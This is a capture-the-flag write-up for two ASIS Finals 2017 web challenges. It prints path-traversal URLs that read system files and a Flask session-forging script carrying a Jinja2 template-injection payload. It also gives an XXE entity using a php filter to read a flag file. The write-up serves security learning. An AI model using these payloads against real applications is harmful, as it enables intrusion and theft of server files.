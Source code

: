 # ASIS-FINALS-2017
Task name : Golem is stupid <br>
Category : Web <br>

Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

tldr ; SSTI to get RCE in flask session token <br>

Challenge : <br>
first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
--------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text```

<br>
Response contained flag : ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}



---------------------------------------------------------------------------------------------------------------------------------
Task name :  GSA File Server  <br>
Category : Web <br>

Description :  GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:* <br>
<br>

tldr ; Exploit XXE and Use a directory listing vuln to read flag<br>

Challenge : <br>
First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>
<br> the directory of the flag was found using the first vuln <br>
Flag : ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}
